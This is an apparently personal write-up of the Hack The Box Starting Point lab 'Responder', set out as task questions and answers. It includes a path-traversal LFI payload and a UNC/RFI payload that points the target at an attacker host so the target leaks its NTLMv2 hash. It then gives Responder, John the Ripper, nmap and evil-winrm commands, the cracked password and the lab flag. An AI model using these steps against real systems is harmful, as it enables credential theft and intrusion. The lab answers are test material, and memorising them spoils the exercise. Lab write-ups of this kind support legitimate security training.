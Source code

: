 ```yaml
---
layout: post
title: "[HTB - Starting Point] Responder"
date: 2022-10-16 09:00:00 +0800
categories: note
tags: [HTB]
---
```


## Task 1  
Q : When visiting the web service using the IP address, what is the domain that we are being redirected to?  
A : unika.htb  
Note : In order to view the website, add unika.htb domain into hosts file.

## Task 2  
Q : Which scripting language is being used on the server to generate webpages?  
A : PHP  
Note : Use wappalyzer  

## Task 3  
Q : What is the name of the URL parameter which is used to load different language versions of the webpage?  
A : page  
Note : Observe the url after language changed.

## Task 4  
Q : Which of the following values for the 'page' parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"  
A : ../../../../../../../../windows/system32/drivers/etc/hosts  
Note : By replacing the 'page' parameter, you can exec/read files on the system.

## Task 5  
Q : Which of the following values for the 'page' parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"  
A : //10.10.14.6/somefile  
Note : By replacing the 'page' parameter, you can exec/read files on the remote system via the target.

## Task 6  
Q : What does NTLM stand for?  
A : New Technology LAN Manager  

## Task 7  
Q : Which flag do we use in the Responder utility to specify the network interface?  
A : -I  

## Task 8  
Q : There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as 'john', but the full name is what?.  
A : john the ripper  

## Task 9  
Q : What is the password for the administrator user?  
``` text
[host] # responder -I <your_vpn_interface>
modify the 'page' parameter to '//<your_host_ip>/file_name'
your responder should print [SMB] NTLMv2-SSP messages.
save the hash content to a file, let's name it 'pswd'.
[host] # john --wordlist=<your_path_to_rockyou.txt> pswd
```
A : badminton  

## Task 10  
Q : We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?  
``` text
[host] # nmap -sVC -p- --open 10.129.76.195 -oA Responder_full_scan
```
A : 5985  

## SUBMIT FLAG  
Q : Submit root flag  
``` text
[host] # evil-winrm -i <target_ip> -u administrator -p badminton
*Evil-WinRM* PS C:\Users\mike\Desktop> type flag.txt
```
A : ea81b7afddd03efaa0945333ed147fac  